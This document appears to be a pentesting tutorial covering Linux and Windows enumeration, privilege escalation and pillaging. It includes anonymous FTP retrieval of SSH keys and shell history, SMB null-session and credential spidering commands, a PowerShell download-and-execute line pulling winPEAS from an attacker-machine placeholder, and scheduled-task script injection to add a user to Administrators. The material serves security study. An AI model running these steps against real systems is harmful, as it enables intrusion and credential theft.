

# Pentest in a nutshell

This should the overall process of a pentesting:



Whenever you are blocked in any stage, remember what other stages can be reached from that stage. E.g: you need to do privilege escalation, but you haven't found the vulnerability yet.

## Linux information gathering

If we discover FTP port listening:

Try to log as `anonymous` user. The FTP service will prompt us for a username and password, which, by default, are anonymous:whatever. 

```bash
ftp> ls

229 Entering Extended Passive Mode (|||47456|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 john     john          964 Feb 15 22:14 WordPress_Blog_Setup_Update.txt
226 Transfer complete
```

Here, we see that there is a file called WordPress_Blog_Setup_Update.txt, which might contains some interesting data for us. We also see that the file is owned by the user john . After we add these findings to our notes, we download the file using the get <filename> command. 

Now check the empty files with `ls -al`:

```bash
ftp> ls -al

229 Entering Extended Passive Mode (|||42851|)
150 Opening ASCII mode data connection for file list
drwxr-x---   4 john     john         4096 Feb 16 17:28 .
drwxr-x---   4 john     john         4096 Feb 16 17:28 ..
-rw-------   1 john     john         1153 Feb 15 21:13 .bash_history
-rw-r--r--   1 john     john          220 Jan  6  2022 .bash_logout
-rw-r--r--   1 john     john         3771 Jan  6  2022 .bashrc
drwx------   2 john     john         4096 Feb 15 17:16 .cache
-rw-------   1 john     john           20 Feb 16 16:34 .lesshst
-rw-r--r--   1 john     john          807 Jan  6  2022 .profile
drwxrwxr-x   2 john     john         4096 Feb 12 13:55 .ssh
-rw-r--r--   1 john     john            0 Feb 11 10:18 .sudo_as_admin_successful
-rw-------   1 john     john        17094 Feb 15 22:14 .viminfo
-rw-rw-r--   1 john     john          964 Feb 15 22:14 WordPress_Blog_Setup_Update.txt
226 Transfer complete
```

Each of these files could contain important information for us, but first we will download the `.bash_history` file (which can reveal the existence of certain programs, files, directories, access, and more.). By default, Bash saves the last 500-1000 commands in this file, though this number can be configured.

Another potential goldmine is the `.ssh` directory. This directory (most of the time) is used to store files related to SSH, such as private keys, configs, and more:

```bash
ftp> cd .ssh

250 CWD command successful

ftp> ls -al

229 Entering Extended Passive Mode (|||26184|)
150 Opening ASCII mode data connection for file list
-rw-------   1 john     john         2602 Feb 12 13:55 id_rsa
-rw-r--r--   1 john     john          565 Feb 12 13:55 id_rsa.pub
226 Transfer complete
```

If a wordpress is discovered, we can enumerate more using `wpscan`:

```bash
wpscan --url https://10.129.233.210 --disable-tls-checks
```

With the information we have from `wpscan`, we can use `metasplot` framework to check if we can get a reverse shell. Also the `.bash_history` reveales some credentials and we can connect using the `id_rsa` file using normal SSH.

## Linux System enumeration

At this point, we have access to the machine. We are at `Post-Exploitation` phase:

In the `Exploitation` stage, we usually do not have any local or privileged access to any of the provided services of the target. However, in the `Post-Exploitation` stage we do. In other words, `Exploitation` stage is when we attack the target system from outside and `Post-Exploitation` when we attack it from within.

In this phase, we need to collect at least the following pieces of information:

- System Information: OS version, kernel version, architecture, and installed patches
- User Information: Current user privileges, all users on the system, sudo rights
- Network Information: Network interfaces, routing tables, active connections
- Running Services: Active processes, listening ports, scheduled tasks
- File System: Interesting files, permissions issues, mounted drives
- Installed Software: Applications, versions, potential vulnerabilities
- Security Mechanisms: Firewall rules, SELinux status, AppArmor profiles

This information can be collected automatically using Linux Privilege Escalation Awesome Script (LinPEAS).

Now, we should analyze the output of linpeas for vulnerabilities for privilege escalation or lateral movement.

## Linux Privilege Escalation.

For privilege escalation on a Linux system, we aim to become the root user (aka superuser) on the target system.

Examine the output of `sudo -l`:

```bash
john@ubuntu:~$ sudo -l

Matching Defaults entries for john on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User john may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nano
    (ALL : ALL) ALL
```

John can run `/usr/bin/nano` as root without typing a password (NOPASSWD), making it extremely convenient to edit system files

He can run any command as any user or group ((ALL : ALL) ALL), effectively granting full administrative privileges, though he must enter his password for all commands except for nano.

Now, we can go to GTFO bins to escape nano and land in a `root` shell.

## Linux pillaging

The term pillaging refers to the process of extracting valuable information from a compromised system for purposes such as privilege escalation, lateral movement, or data exfiltration. Now that we have the highest possible privileges, we can access sensitive files that were previously off-limits.

Now, we can run `linpeas` as root, to see if it reveals more information that was not previously available. This means that we can find active credentials that are being used by the system. We can get access to `root` id_rsa key, `.bash_history`, etc...

## Windows information gathering

Very similar to Linux, typically running `nmap` and enumerate services running in the machine and their versions:

```bash
sudo nmap -p- -sV -sC 10.129.12.20 -T5 -Pn
```

If you discover SMB shares, you can use `crackmapexec` tool or `nxc` tool to investigate further.

Make sure to try to connect with `NULL` account, i.e. empty user and password:

```bash
crackmapexec smb 10.129.12.20 -u '' -p '' --users
```

Also, it's a good idea to check the `Guest` account as well:

```bash
crackmapexec smb 10.129.12.20 -u guest -p '' --shares
```

If it turns out we have valid credentials, we can try to search for file patterns. This is called `spidering`: https://www.netexec.wiki/smb-protocol/spidering-shares

```bash
crackmapexec smb 10.129.12.20 -u "john" -p 'SuperSecurePass123' --spider Devs --pattern .
crackmapexec smb 10.129.12.20 -u "john" -p 'SuperSecurePass123' --share Devs --get-file tmp.ps1 tmp.ps1
```

It turns out this file reveals a PowerShell script with hardcoded credentials.

## Windows System Enumeration

Once we have the initial access to the Windows machine, we can enumerate it from inside.

User information
```ps1
PS C:\Users\john> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

Now, let’s take a look at the groups we are member of.

```ps1
PS C:\Users\john> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\\Event Log Readers            Alias            S-1-5-32-573 Mandatory group, Enabled by default, Enabled group
BUILTIN\\Remote Desktop Users         Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\\High Mandatory Level Label            S-1-16-12288
```
We can use `net` command as well:

```ps1
PS C:\Users\john> net user john
```


We can check scheduled tasks:

```ps1
PS C:\Users\john> schtasks /query /fo LIST /v
```

Similar to linpeas, it exists the winpeas script. We can run it without touching the disk with:

```ps1
PS C:\Users\john> powershell "IEX(New-Object Net.WebClient).downloadString('http://<attacking-machine-IP>:8080/winPEAS.ps1')" > winpeas.txt
```

This will list write permissions in unsual places, open ports, user information (SID, groups and privileges) and system information.

To check permissions on files, we can use `icacls`, it manages NTFS file system permissions, specifically the discretionary access control lists (DACLs), allowing administrators to view, modify, grant, deny, or remove permissions on files and directories:

```ps1
PS C:\\ProgramData> icacls "C:\\ProgramData\\CorpBackup\\Scripts\\backupprep.ps1"

C:\\ProgramData\\CorpBackup\\Scripts\\backupprep.ps1 Everyone:(I)(F)
                                                 NT AUTHORITY\\SYSTEM:(I)(F)
                                                 BUILTIN\\Administrators:(I)(F)
                                                 BUILTIN\\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

## Windows Privilege Escalation

Looks like we identified one scheduled task and we have write access to the script. We can perform:

- Script modification for code injection - Add a user to the administrators group and add a reverse shell
- Credential harvesting - Dump credentials or use it as a keylogger
- Persistence via task hijacking - Append code to maintain access by creating a new scheduled task that runs our payload frequently
- Changing Passwords - Change administrator’s password and create a new RDP session as the user Administrator

Since the script is executed with `Administrator` permission, we can use it to add the user to administrators group:

```ps1
Add-LocalGroupMember -Group "Administrators" -Member "WIN01\\john"
```

Now, we wait two minutes and the user will be in the `Administrators` group.

## Windows Pillaging

Now, we can run `winpeas` script and will output some information that before was not accessible. Also there's the `winpill.ps1` script that will automate retrieval of interesting data.

## Proof-of-Concept

We can summarize the process of a pentest in the following steps:

- Information Gathering
- Vulnerability Assessment
- Exploitation
- Local Information Gathering
- Local Vulnerability Assessment
- Post-Exploitation (Privilege Escalation)
- Privileged Local Information Gathering (Pillaging)
- Privileged Local Vulnerability Assessment